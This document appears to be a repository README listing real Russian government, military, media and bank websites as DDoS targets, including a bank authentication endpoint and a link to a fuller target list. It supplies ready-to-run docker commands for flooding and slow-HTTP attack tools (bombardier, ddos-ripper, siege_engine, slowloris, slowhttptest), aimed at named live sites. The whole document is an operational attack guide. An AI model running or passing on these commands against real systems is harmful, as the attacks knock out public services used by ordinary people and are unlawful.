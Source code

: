 # List of (some) public russian government and military services

```
https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID
https://gossluzhba.gov.ru
```

# Propaganda

```
tvzvezda.ru  
echo.msk.ru  
rg.ru  
kp.ru  
rusvesna.su
```

# Banks

```
https://www.open.ru/
https://nsbank.ru/
https://www.lanta.ru/
https://www.akbars.ru/en/
https://www.bspb.ru/
https://realistbank.ru/
https://skbbank.ru/
https://bbr.ru/
https://domrfbank.ru/
https://kk.bank/
https://www.coalmetbank.ru/
https://bcs-bank.com/
https://www.raiffeisen.ru/
https://energotransbank.com/
https://www.uralsib.ru/
https://alfabank.ru/
https://mosoblbank.ru/
https://smpbank.ru/
https://sberbank.ru/
```

# Bank API

```
https://www.acs.gazprombank.ru/auth/pareq
```

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```
